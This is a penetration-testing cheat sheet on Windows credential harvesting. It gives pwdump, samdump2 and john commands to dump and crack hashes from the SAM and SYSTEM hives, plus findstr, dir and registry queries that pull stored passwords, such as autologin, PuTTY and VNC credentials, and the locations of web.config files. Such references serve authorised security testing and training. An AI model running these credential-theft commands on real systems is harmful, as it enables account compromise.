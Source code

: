 # SAM and SYSTEM files
The **S**ecurity **A**ccount **M**anager (SAM) is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

Common locations for the `SAM` and the `SYSTEM` files:
```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
**NOTE:** `%SYSTEMROOT%` is by defaut `C:\Windows`.

## Generating a hash file
If we are able to copy the files to our local machine, we can generate a hash file with `pwdump` or `samdump2` for a specific user. 
With this file we could crack the hash locally.
```powershell
pwdump SYSTEM SAM > /root/sam.txt
# OR
samdump2 SYSTEM SAM -o sam.txt
```

With these files we could crack it with `john` for example.
```bash
john -format=NT /root/sam.txt
```


# Searching in file contents
Search in interessting files for potential passwords:
```powershell
findstr /SI /M "password" *.xml *.ini *.txt
# OR
findstr /si password *.xml *.ini *.txt *.config
# OR
findstr /spin "password" *.*
```


# Searching with filename patterns
```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
# OR
where /R C:\ user.txt
# OR
where /R C:\ *.ini
```


# Searching in the registry
There could be passwords in the registry.
```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

REG QUERY HKLM /f password /t REG_SZ /s
REG QUERY HKCU /f password /t REG_SZ /s

# Windows Autologin
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 

# SNMP parameters
REG QUERY "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty clear text proxy credentials
REG QUERY "HKCU\Software\SimonTatham\PuTTY\Sessions" 

# VNC credentials
REG QUERY "HKCU\Software\ORL\WinVNC3\Password" 
REG QUERY HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```


# IIS Web config
Get the web configuration file.
```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

Common locations:
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
# OR
C:\inetpub\wwwroot\web.config
```
